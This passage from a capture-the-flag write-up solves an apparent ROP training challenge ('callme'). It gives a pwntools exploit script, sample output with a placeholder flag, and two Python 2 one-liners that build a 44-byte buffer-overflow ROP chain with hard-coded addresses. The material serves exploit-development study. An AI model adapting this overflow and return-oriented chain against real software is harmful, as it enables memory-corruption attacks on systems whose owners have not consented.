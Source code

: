 ```


# Exploitation code
offset = 44
buffer = b"A"*offset

arguments = p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)

# The callme_* functions in the order: callme_one, callme_two, callme_three
callme_functions = [p32(0x080484f0), p32(0x08048550), p32(0x080484e0)]

pop_esi_edi_ebp = p32(0x080487f9)

payload = buffer
for func in callme_functions:
    payload += func
    # POP the registers
    payload += pop_esi_edi_ebp
    # Provide the arguments
    payload += arguments

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

Running the exploit with `python3 exploit.py`, I got the flag.
```
$ python3 exploit.py

Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

#### Python2 One-Line Exploit
```
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\x50\x85\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\xe0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"'
```

I also made a shorter version to reduce the amount of re-used strings:
```
python2 -c 'print "A"*44 + "".join([func + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" for func in ["\xf0\x84\x04\x08", "\x50\x85\x04\x08", "\xe0\x84\x04\x08"]])'
```
